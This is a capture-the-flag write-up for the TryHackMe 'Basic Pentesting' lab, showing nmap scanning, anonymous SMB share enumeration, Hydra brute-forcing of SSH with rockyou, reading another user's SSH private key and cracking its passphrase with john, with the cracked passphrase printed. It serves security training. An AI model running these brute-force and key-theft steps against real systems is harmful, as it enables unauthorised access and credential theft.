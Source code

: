 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Basic Pentesting
# DESCRIPTION       . This is a machine that allows you to practise web app hacking and privilege escalation
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/basicpentestingjt
```

___

- I've started scanning the target machine to get a better understanding about the environment.

```bash
sudo nmap -sSVC -T5 10.10.245.193 -p- -oN ~/workspace/ctf_workspace/basicpt
```

```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db45cbbe4a8b71f8e93142aefff845e4 (RSA)
|   256 09b9b91ce0bf0e1c6f7ffe8e5f201bce (ECDSA)
|_  256 a5682b225f984a62213da2e2c5a9f7c2 (ED25519)

80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).

139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS

8080/tcp open  http        Apache Tomcat 9.0.7
|_http-title: Apache Tomcat/9.0.7
|_http-favicon: Apache Tomcat
Service Info: Host: BASIC2; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: basic2
|   NetBIOS computer name: BASIC2\x00
|   Domain name: \x00
|   FQDN: basic2
|_  System time: 2023-11-17T07:33:09-05:00
|_clock-skew: mean: 1h40m00s, deviation: 2h53m12s, median: 0s
|_nbstat: NetBIOS name: BASIC2, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
| smb2-time: 
|   date: 2023-11-17T12:33:09
|_  start_date: N/A
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

```

- While the scan was running, I've checked if there's a webserver running on :80 and there was one.

- However, not much information is given to us.

```
Undergoing maintenance
Please check back later
```

- Checking the source code, we get another piece of information

```html
<!-- Check our dev note section if you need to know what to work on. -->
```

- This made me try navigating to /dev or /development. The latter was working.

- The content of this page is two files, `dev.txt` and `j.txt`.

```dev.txt

2018-04-23: I've been messing with that struts stuff, and it's pretty cool! I think it might be neat to host that on this server too. Haven't made any real web apps yet, but I have tried that example you get to show off how it works (and it's the REST version of the example!). Oh, and right now I'm  using version 2.5.12, because other versions were giving me trouble. -K

2018-04-22: SMB has been configured. -K

2018-04-21: I got Apache set up. Will put in our content later. -J
```

```j.txt
For J:

I've been auditing the contents of /etc/shadow to make sure we don't have any weak credentials, and I was able to crack your hash really easily. You know our password policy, so please follow it? Change that password ASAP.

-K
```

- From these two notes, we get valuable information.

- From `dev.txt`, we find out that the webserver is using Apache and that the SMB has been configured on the host alongside with some piece of software that we're not sure if it's installed on our target or not. 

- On the other side, `j.txt` reveals that the `j` has a really weak password ; (or had, in case it was changed in the meanwhile)

- Going back to our `nmap` scan, the most attractive thing to me was the SMB server ; 

- I've checked for possible shares using 

```bash
smbclient -L \\10.10.245.193
```

and `anonymous` as a password when asked. 

```
	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk      
	IPC$            IPC       IPC Service (Samba Server 4.3.11-Ubuntu)
```

- There's a share called `Anonymous`;

- Can connect to it using `smbclient \\\\10.10.245.193\\Anonymous` with `anonymous` as password.

```
smb: \> ls
  .                                   D        0  Thu Apr 19 20:31:20 2018
  ..                                  D        0  Thu Apr 19 20:13:06 2018
  staff.txt                           N      173  Thu Apr 19 20:29:55 2018

		14318640 blocks of size 1024. 11093564 blocks available
```

```
smb: \> get staff.txt 
getting file \staff.txt of size 173 as staff.txt (0.7 KiloBytes/sec) (average 0.7 KiloBytes/sec)
smb: \> exit

```

```staff.txt
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but this is how mistakes happen. (This means you too, Jan!)

-Kay
```

- This file is important ; it reveals us the 2 users from the notes above, `jan` and `kay`. 

- Since we already know `Jan's` password is weak, let's try bruteforcing the SSH for this user.

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.245.193 ssh
```

**NOTE**: it takes ~10 minutes to find the password.

- Once we find the password, we're able to ssh to the box.

- I have looked around and tried different manual enumaration / looked for privilege escalation.

- By using `cat /etc/passwd | cut -d ":" -f 1 ` I've noticed that the only 2 users available on the system are `jan` and `kay`. 

- I tried to navigate to `/home/kay` and I've noticed that besides the `pass.bak` file that I couldn't read, I could navigate to `.ssh` and read the `id_rsa` key.

- With the key copied to my machine, I have tried SSHing to the box using `kay`'s key `chmod 600 id_rsa && ssh -i id_rsa kay@ip` but I have been asked for a passphase.

- I've used `python3 /opt/john/run/ssh2john id_rsa > id_rsa.hash` to format the file to something `john` can handle and then ran `john --wordlist=/usr/share/wordlists/rockyou.txt` against the file, revealing `beeswax` as the passphrase.

- After being able to SSH in as kay, I was able to read the `pass.bak` file from his home, which revealed the final flag.

